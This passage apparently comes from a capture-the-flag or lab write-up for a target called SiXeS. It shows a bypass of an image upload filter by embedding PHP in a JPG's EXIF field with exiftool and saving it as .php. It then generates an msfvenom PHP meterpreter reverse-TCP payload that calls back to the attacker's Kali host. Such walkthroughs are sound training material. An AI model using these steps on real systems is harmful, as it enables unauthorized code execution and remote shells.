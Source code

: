 So we play arround with the functionality, try to upload some pictures (which works), try to upload some text files and other stuff (which does not work) and then we discover that we can upload pictures, although we renamed them to something else, e.g. to ".php". Okay, so it seems the upload filter is not really waterproof ...

So let's see what happens if we inject some php code into the EXIF fields of a jpg. Therefore we use the "exiftool" (`apt install exiftool` if you don't have it yet)

~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# exiftool -DocumentName="<?php echo '<H1>Huston we have a problem! </H1> '; ?>" smiley.jpg -o smiley1.php
    1 image files created
~~~

We upload the smiley1.php and are able to access it now in the /img/ subfolder of the page

![](attachments/Clipboard_13.png)

Very nice! We found a way to execute custom php code on the target machine! 

So let's not waste any further time and prepare something more usefull. First we create the payload for meterpreter with msfvenom.
~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=4444 -e php/base64 > meterpreter.php
~~~

For LHOST specify the local IP of your Kali Linux system (where the reverse connection should point to).

![](attachments/Clipboard_14.png)
